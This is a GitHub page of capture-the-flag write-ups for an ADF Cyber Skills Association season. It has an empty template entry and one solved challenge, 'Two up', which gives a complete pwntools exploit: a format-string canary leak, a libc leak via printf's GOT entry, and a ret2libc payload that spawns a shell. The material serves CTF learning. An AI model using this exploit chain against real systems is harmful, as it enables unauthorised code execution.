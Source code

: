 # CSA_S1_2024
# CTF Writeups
## Writeups for the ADF Cyber Skills Association Season 1 challenges.

### Title of challenge here
Description - xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
place any code here
```
Solution:
Plugged this straight into ChatGPT:
```
More code here for solution
```
:+1: FLAG{ENTER_FLAG_HERE}
<hr>

### Two up
Description - Let's play some two-up! Flag format:
FLAG{0x.de-adbeef_cafe}

netcat to the remote server on port 1337 (from nmap scan)

Solution:
Found a great tutorial on youtube that went through canary's and NX.
(https://www.youtube.com/watch?v=XaWlKYgmEDs)
Referring to the code from CryptoCat, modified to produce the following.
In stages, running against the remote server, you can leak the libc address
which then allows you to narrow down the libc version running remotely using 
blukat (https://libc.blukat.me/)

After trying several libraries, it turned out to be libc6-amd64_2.31-13+deb11u7_i386.so
Downloaded that locally, renamed to libc.so.6 and ran the code again and got the shell

Overall there's 3 stages:
S1 - leak the Canary
S2 - leak libc
S3 - ret2libc for shell

Once shell is gained, cd to /, and cat flag.txt

Brickwalls:
It's tricky getting the code to send the payload at the right prompt of Bet: so that
has to be accurate in code for execution.
```
from pwn import *
import sys

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './twoup'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

def breakpoint_handler(signal, frame):
    print("Breakpoint reached")
    # You can add additional actions here if needed
    pass

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 15  # Canary offset

# Lib-C library
libc = ELF("./libc.so.6")
#ld = ELF("./ld-2.27.so")

pop_rdi = 0x004013fb  # Found with ropper
ret = 0x00401016  # Found with ropper

# Send payload 1
log.info(f'Sending payload 1')
io.sendlineafter(b'Bet:', b'%9$p')
sleep(0.5)
# Canary value
reply1 = io.recvuntil(b'Your bet:')
print("Reply 1 is: ",reply1)
leaked_addresses = io.recvlineS().split("\n")[0]
print("Leaked addresses: ",leaked_addresses)
canary = int(leaked_addresses, 16)
log.info(f'Canary: {hex(canary)}')

# Build payload 2 (leak printf)
payload = flat([
    offset * b'A',  # Pad to canary (15)
    canary, # Our leaked canary (8)
    8 * b'A',  # Pad to Ret pointer (8)
    # Leak got.puts
    pop_rdi,
    elf.got.printf,
    elf.plt.printf,
    0x00401319
])
# Send payload 2
io.recvuntil(b'You lose')
io.sendlineafter(b'Bet:', payload)
sleep(0.5)
io.recvuntil(b'You lose')
io.recvline()
# Retrieve got.printf address
got_printf = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info(f"leaked got_printf: {got_printf:#x}")
libc.address = got_printf - libc.symbols.printf
info(f"libc_base: {libc.address:#x}")

# Build payload 3 (ret2system)
payload = flat([
    offset * b'A',  # Pad to canary (15)
    canary, # Our leaked canary (8)
    8 * b'A',  # Pad to Ret pointer (8)
    # Ret2system
    pop_rdi,
    next(libc.search(b'/bin/sh\x00')),
    ret, # Stack alignment
    libc.symbols.system
])

# Send payload 3
io.recvline()
#io.recvuntil(b'You lose')
io.sendlineafter(b'Bet:',payload)

# Get our flag/shell
io.interactive()

```
:+1: FLAG{w3.w1ll-r3m3mb3r_th3m}
<hr>
